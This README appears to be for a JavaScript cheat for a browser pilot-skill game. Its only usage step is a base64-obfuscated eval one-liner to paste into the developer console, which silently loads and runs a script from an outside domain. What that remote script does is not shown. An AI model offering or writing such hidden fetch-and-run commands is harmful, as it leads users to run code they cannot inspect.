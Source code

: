 # Air Force Pilot's Test Cheat
A JavaScript based cheat engine for the [BBMAC Air Force Pilot's Test](http://bbmac.net/game/skill_test.htm).

## Features
 - Enemies disappear on game start
 - Timer below player
 - Double click player to bring back enemies

## How to use
Open the console in developer tools when you're on [BBMAC Air Force Pilot's Test](http://bbmac.net/game/skill_test.htm) and paste the code:
`eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9jb3Ntb3Nib3QuZ2EvY2RuL0NvbnRlbnQvaW5qZWN0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZChzY3JpcHQpOw=='))`
